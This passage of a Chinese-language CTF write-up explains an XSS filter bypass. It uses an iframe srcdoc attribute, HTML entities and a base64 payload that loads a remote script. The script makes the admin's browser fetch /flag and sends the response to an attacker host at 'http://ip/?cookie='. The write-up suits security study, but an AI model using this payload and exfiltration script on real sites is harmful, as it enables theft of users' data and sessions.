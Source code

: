 替换之后其实是这样：

[![](https://p1.ssl.qhimg.com/t0131c5622373f01652.png)](https://p1.ssl.qhimg.com/t0131c5622373f01652.png)

实际上是利用了iframe标签的srcdoc属性和HTML实体编码来绕过

```
&lt;iframe src="&lt;b class=&amp;quot;search_result&amp;quot;&gt;AAA(" srcdoc="&lt;img src=1 onerror=document.write(atob('PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL0J5cGFzc19IVFRQX09ubHkuanMiPjwvc2NyaXB0Pg=='));&gt;" )*&lt;="" b=""&gt;' &gt;&lt;/iframe&gt;
```

结果一目了然；

而iframe里面`&lt;script&gt;`指向的JS：

```
xmlhttp = new XMLHttpRequest();
//是否能跨域
xmlhttp.withCredentials = true;
xmlhttp.onreadystatechange = function() `{`
    if (xmlhttp.readyState == 4) `{`
        location.href = 'http://ip/?cookie=' + btoa(xmlhttp.responseText)
        //得用btoa()进行base64编码，不然flag会很神必
        //尝试getAllResponseHeaders()不行，因为HttpOnly的Set-Cookie头不适用
    `}`
`}`;
//设置连接信息
//第一个参数表示http的请求方式，支持所有http的请求方式，主要使用get和post
//第二个参数表示请求的url地址，get方式请求的参数也在url中
//第三个参数表示采用异步还是同步方式交互，true表示异步
xmlhttp.open('GET', '/flag', true);
//4.发送数据，开始和服务器端进行交互
//同步方式下，send这句话会在服务器段数据回来后才执行完
//异步方式下，send这句话会立即完成执行
xmlhttp.send('');
```

不能绕HttpOnly来获取cookie，但是我们可以直接让admin请求`/flag`，把responseText发给我们就行了；

这个是本地打的结果：

[![](https://p1.ssl.qhimg.com/t0198e4d7a27320c842.png)](https://p1.ssl.qhimg.com/t0198e4d7a27320c842.png)

大手一抖，flag到手：

[![](https://p2.ssl.qhimg.com/t0104af98d34c885a5a.png)](https://p2.ssl.qhimg.com/t0104af98d34c885a5a.png)

因为flag里面出题人故意放了`&amp;`字符让我们踩坑，打出来的responseText需要base64编码。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019eac8b25f558c6c7.png)

下面这个才对。

[![](https://p0.ssl.qhimg.com/t01232f59a523828797.png)](https://p0.ssl.qhimg.com/t01232f59a523828797.png)
